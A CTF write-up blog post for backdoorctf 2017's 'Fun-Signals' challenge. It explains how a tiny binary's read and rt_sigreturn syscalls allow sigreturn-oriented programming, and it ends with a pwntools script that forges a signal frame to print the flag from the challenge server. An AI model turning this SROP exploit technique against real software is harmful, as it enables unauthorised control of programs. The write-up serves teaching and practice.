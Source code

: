 ```yaml
---
layout: post
title: backdoorctf 2017 - Fun-Signals Writeup
categories: ctf_backdoorctf17
keywords: "exploitation"
comments: true
authors:
    - andreafioraldi
---
```




This binary has a very small portion of code.

Analize it in IDA:

<img class="img-responsive" src="{{ site-url }}/assets/backdoorctf17/funsignals-1.png" alt="IDA screenshot showing disassembled binary code with syscalls to read() and rt_sigreturn()">

The first syscall is a read (rax = 0) of 1024 bytes in the stack.

The second is rt_sigreturn.

For a l337 h4xx0r sigreturn means SROP. For me it means [Wikipedia](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming).

I learnt that we can control the program flow like with rop using sigreturn and the associated structure on the stack.

This structure contains the context of the signal handler.

So writing this structure on the stack (with read) we have the complete control of all registers.

A good choice is to prepare the registers for a write to the stdout of the flag.

The syscall gadget under `int 3` is a perfect target for rip.

Wait, how is composed a signal frame? I don't know, but pwnlib does.

```python
from pwn import *

context.arch = "amd64"

frame = SigreturnFrame()
frame.rax = constants.SYS_write
frame.rdi = constants.STDOUT_FILENO
frame.rsi = 0x10000023 #flag string address
frame.rdx = 50 #read size
frame.rsp = 0xABADCAFE
frame.rip = 0x10000015 #syscall gadget

#p = process("./player_bin")
p = remote("163.172.176.29", 9034)
p.send(str(frame))

print p.recvall()
```


